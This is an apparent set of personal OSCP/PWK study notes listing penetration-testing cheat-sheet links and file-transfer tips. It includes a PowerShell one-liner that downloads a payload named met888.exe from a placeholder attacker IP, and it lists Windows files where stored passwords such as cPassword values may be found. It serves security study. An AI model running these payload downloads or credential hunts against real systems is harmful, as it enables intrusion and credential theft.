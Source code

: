 # TJ Null Path to Try Harder
TJNull presented at BSidesDC 2019.  I've been using his blog as a good reference point to start for things to review BEFORE signing up for PWK.  Some content I decided to put in their own `md` files.  Links can be found here: https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html
# Active Recon

## Service Enum - Pen Testing Cheat Sheet

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
Local File Inclusion (LFI): https://highon.coffee/blog/lfi-cheat-sheet/
Linux Commands: https://highon.coffee/blog/linux-commands-cheat-sheet/ 
`systemd`/`systemctl` cheat sheet: https://highon.coffee/blog/systemd-cheat-sheet/
Reverse Shell Cheat Sheet: https://highon.coffee/blog/reverse-shell-cheat-sheet/

## Transferring Files to Your Account - Linux --> Windows
https://blog.ropnop.com/transferring-files-from-kali-to-windows/
- When on Windows (no `curl` or `wget`) use PS `WebClient` object: `(new-object System.Net.WebClient).DownloadFile('http://IP_ADDR/met888.exe','C:\Users\AdminUser\
Desktop\met888.exe')`

## Transferring Files to Your Account - Tools -
- `bitsadmin` - Windows command line tool to create download/upload jobs and monitor progress

## Privileger Escalation
### Windows Guides - Fundamentals
http://www.fuzzysecurity.com/tutorials/16.html
Location to check for config files w/stored passwords:
Typically these are the directories that contain the configuration files (however it is a good idea to check the entire OS):
- c:\sysprep.inf
- c:\sysprep\sysprep.xml
- %WINDIR%\Panther\Unattend\Unattended.xml
- %WINDIR%\Panther\Unattended.xml

In addition to Groups.xml (stored in SYSVOL) several other policy preference files can have the optional "cPassword" attribute set:
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes